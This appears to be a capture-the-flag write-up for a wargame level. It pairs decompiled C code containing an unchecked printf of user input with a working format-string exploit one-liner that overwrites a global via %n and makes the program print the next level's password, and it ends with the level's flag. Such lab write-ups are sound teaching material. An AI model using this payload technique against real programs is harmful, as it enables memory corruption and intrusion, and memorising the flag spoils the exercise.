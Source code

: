 # Level4

```c
//
// This file was generated by the Retargetable Decompiler
// Website: https://retdec.com
//

#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>

// ------------------------ Structures ------------------------

struct _IO_FILE {
    int32_t e0;
};

// ------------------- Function Prototypes --------------------

int32_t n(void);
int32_t p(int32_t * format);

// --------------------- Global Variables ---------------------

struct _IO_FILE * g1 = NULL; // 0x8049804
int32_t g2 = 0; // 0x8049810

// ------------------------ Functions -------------------------

// Address range: 0x8048444 - 0x8048457
int32_t p(int32_t * format) {
    // 0x8048444
    return printf((char *)format);
}

// Address range: 0x8048457 - 0x80484a7
// Demangled:     __int128
int32_t n(void) {
    // 0x8048457
    int32_t str; // bp-524, 0x8048457
    fgets((char *)&str, 512, g1);
    p(&str);
    int32_t system_rc = g2; // 0x8048497
    if (g2 == 0x1025544) {
        // 0x8048499
        system_rc = system("/bin/cat /home/user/level5/.pass");
    }
    // 0x80484a5
    return system_rc;
}

// Address range: 0x80484a7 - 0x80484b4
int main(int argc, char ** argv) {
    // 0x80484a7
    return n();
}

// --------------------- Meta-Information ---------------------

// Detected compiler/packer: gcc (4.6.3)
// Detected functions: 3

```

Practically the same as level3 but we get a 0x type value.

The calculation is:

- Target value: 16930116 (0x1025544)
- Our address bytes take up 4 bytes
- So we need to pad: 16930116 - 4 = 16930112 bytes

`(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"'; cat) | ./level4`

Flag : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
